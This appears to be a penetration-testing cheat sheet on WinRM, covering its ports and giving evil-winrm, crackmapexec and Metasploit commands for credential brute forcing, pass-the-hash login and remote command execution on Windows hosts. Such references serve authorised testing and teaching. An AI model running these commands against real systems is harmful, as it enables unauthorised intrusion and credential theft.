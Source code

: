
[Windows Remote Management](https://msdn.microsoft.com/en-us/library/windows/desktop/aa384426(v=vs.85).aspx) (WinRM) is a Microsoft protocol that **allows remote management of Windows machines** over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.

If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!)

The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports:

-   **5985/tcp (HTTP)**
    

-   **5986/tcp (HTTPS)**
    

If one of these ports is open, WinRM is configured and you can try entering a remote session.

# Evilwirm
```
evil-winrm.rb -u USER -p PASS -i IP
upload powerview.ps1
import-module .\powerview.ps1

```

# logging in using priv/pub keys

evil-winrm -S (SSL) -k (priv key file) -c (pub key file ) -i IP


# crackmapexec.py

```bash
crackmapexec <protocol> <target(s)> -u username -p password

crackmapexec.py winrm <ip address>  # to determine if the target has PSRemoting enabled.

crackmapexec.py winrm <ip address> -u USER -p PASS -x "sysinfo" # RCE

# Brute force

rackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes



```

# Metasploit

```ruby
use auxiliary/scanner/winrm/winrm_login # bruteforce

use exploit/windows/winrm/winrm_script_exec # login 

set force_vbs true


```